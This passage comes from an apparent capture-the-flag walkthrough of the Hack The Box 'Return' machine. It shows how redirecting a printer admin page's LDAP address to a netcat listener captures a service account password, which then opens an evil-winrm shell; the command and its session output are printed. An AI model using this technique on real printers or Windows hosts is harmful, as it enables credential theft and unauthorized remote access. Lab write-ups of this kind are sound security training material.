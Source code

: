 ```bash
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-01-20T16:43:31
|_  start_date: N/A
```
{: .nolineno}
{: .nolineno}

## Web Enumeration ⤵️

I checked port 80 and I got this site →

![Untitled](Return/Untitled%201.png)

I looked into the `settings.php` page and found that some data is sent to that IP on that port so I changed the IP to my tun0 interface IP and I started listener at port 389 in my system.

![Untitled](Return/Untitled%202.png)

On netcat listener I got this →

![Untitled](Return/Untitled%203.png)

I got some data lets see it is a credential or not →

![Untitled](Return/Untitled%204.png)

Lets have a winrm shell →

### Winrm Shell ⤵️

I got this →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Return]
└─$ evil-winrm -i 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
                                        
Evil-WinRM shell v3.5
                                        
*Evil-WinRM* PS C:\Users\svc-printer\Documents> ls
*Evil-WinRM* PS C:\Users\svc-printer\Documents> cd ..
*Evil-WinRM* PS C:\Users\svc-printer> whoami
return\svc-printer
*Evil-WinRM* PS C:\Users\svc-printer> hostname
printer
*Evil-WinRM* PS C:\Users\svc-printer> tree /f /a
Folder PATH listing
Volume serial number is 3A0C-428E
C:.
+---Desktop
|       user.txt
|
+---Documents
+---Downloads
+---Favorites
+---Links
+---Music
+---Pictures
+---Saved Games
\---Videos
*Evil-WinRM* PS C:\Users\svc-printer>
```
{: .nolineno}
